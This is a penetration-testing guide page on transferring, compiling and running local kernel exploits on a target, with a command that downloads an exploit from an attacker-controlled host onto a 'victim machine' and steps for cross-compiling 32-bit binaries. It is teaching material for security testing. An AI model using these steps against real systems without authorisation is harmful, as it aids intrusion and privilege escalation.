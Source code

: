 # Working with exploits

This section is mostly about local kernel exploits, because they're annoying. Remote python exploits are usually point-and-shoot and web exploits have their own section.

## Transferring exploits

The quickest way to transfer an exploit is to create a folder for your exploits and expose it with Python's webserver:

```text
python -m SimpleHTTPServer 80
```

The port defaults to 8000 but 80 and 443 are usually more accessible, and wget will use 80 by default. Make sure your port choice doesn't conflict with your shell and don't leave the server running once you've served the exploit.

To download files to the victim machine:

```text
wget http://[attack machine]:[port]/exploit.c
```

Make sure you are in a writable directory,`/tmp/` is usually reliable.

## Compiling exploits

First, the usual warning about randomly downloading exploits from the internet: watch out for backdoors. [Exploit-DB](https://www.exploit-db.com/) is reliable.

Second, always read the exploit comments carefully:

* Compiler options to use
* Architecture of the victim machine \(32-bit or 64-bit\)
* Steps to complete on the victim machine
* Code modifications

Third, if you get error messages during compilation or runtime, google them. Usually this is because the binary was compiled on the attack machine and there are quirks in architecture that can be solved by modifying compile options.

### Basic technique

The compile command looks like this:

```text
gcc filename.c -o executablename
```

Before you can run it, you'll need to transfer it to the victim machine and give it the right permissions:

```text
chmod u+x executablename
```

To run the executable:

```text
./executablename
```

### Compiling 32-bit exploits on a 64-bit machine

Sometimes the victim machine will be 32-bit and can't accept a 64-bit compiled binary. To determine the architecture of your target:

```text
uname -a
cat /proc/version
dpkg --print-architecture
arch
file /sbin/init
```

32-bit is usually represented by `i686` and 64-bit is usually represented by `x86_64`.

If a C compiler is missing or inaccessible on your victim machine, you can compile the exploits on your Kali machine but you need some extra libraries on Kali:

```text
apt-get install gcc-multilib
apt-get install g++-multilib
```

You will also need to add the `-m32` flag to your compile command.

